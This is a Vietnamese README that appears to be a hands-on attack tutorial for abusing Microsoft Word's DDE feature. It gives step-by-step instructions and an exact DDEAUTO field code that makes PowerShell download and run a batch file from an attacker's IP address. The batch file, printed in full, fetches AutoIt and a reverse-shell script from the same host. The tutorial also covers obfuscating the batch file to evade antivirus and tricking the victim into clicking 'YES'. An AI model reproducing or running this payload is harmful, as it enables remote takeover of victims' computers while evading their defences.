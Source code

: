 # Lạm dụng TÍNH NĂNG hợp pháp của Microsoft Word để thực thi mã độc bất hợp pháp
> Mô tả: Lạm dụng tính năng DDE - Dynamic Data Exchange của Office, cho phép ứng dụng Office tải dữ liệu từ các ứng dụng Office khác. Từ đó, thay vì chèn dữ liệu hợp pháp thì chèn dữ liệu độc hại. ***Ví dụ: file Word có thể cập nhật dữ liệu table bằng cách kéo dữ liệu từ tệp Excel mỗi khi tệp Word được mở.***

Như vậy, DDE có khả năng cho phép file Word mỗi khi được mở, có thể thực thi đoạn mã đang được lưu trữ trong một file khác và cho phép các ứng dụng đó có thể gửi bản cập nhật dữ liệu mới.

Dữ liệu độc hại được thực thi ở đây là 1 câu lệnh sẽ được hiện trên máy victim. Câu lệnh này sẽ tải 1 tập lệnh Batch được host trên máy attack về, và tự động thực thi trên máy victim. Tập lệnh Batch có chức năng giúp attacker tạo 1 reverse shell từ máy victim. Tập lệnh Batch sẽ được mã hóa để bypass hoàn toàn Windows Defender.

Lưu ý: DDE hoàn toàn là 1 TÍNH NĂNG, không phải là lỗ hổng. 

## Thực thi

1. Mở file Word lên, vào Insert -> Quick Parts -> Field…
2. Sẽ có 1 bảng hiện ra, tiến hành click double vào ” = (Formula ) ”
3. 1 dòng chữ sẽ hiện ra, chuột phải vào, chọn “Toggle Field Codes”
4. Thay đổi nội dung như sau: 
```console
{DDEAUTO "C:\\windows\\system32\\cmd.exe /k powershell -NoP -NonI -Exec Bypass IEX (New-Object System.Net.WebClient).DownloadFile('http://192.168.2.39:1113/RVSo.bat', 'RVSo.bat');start 'RVSo.bat' # " "for security reasons click YES"}
```
### Nội dung của file RVSo.bat
```bat
@echo

cd %temp%

curl http://192.168.2.39:1113/autoit/AutoIt3.exe > autoit.exe

curl http://192.168.2.39:1113/autoit/RVS.a3x > reverseShell.a3x
autoit.exe reverseShell.a3x
```
Dùng tool [này](https://github.com/thotrangyeuduoi/toolWin/blob/master/obfuscator.cmd) để mã hóa file RVS.bat nhằm bypass AntiVirus
```cmd
C:\User\Document\obfucator.cmd RVS.bat
```
### File liên quan

[ReverseShell.au3](https://github.com/thotrangyeuduoi/template/blob/master/example_attack/ReverseShell_by_Autoit.au3)

Ref: https://anonyviet.com/cach-hacker-bypass-av-xam-nhap-windows-voi-autoit/
     https://anonyviet.com/phuong-phap-phat-tan-virus-bang-file-word/
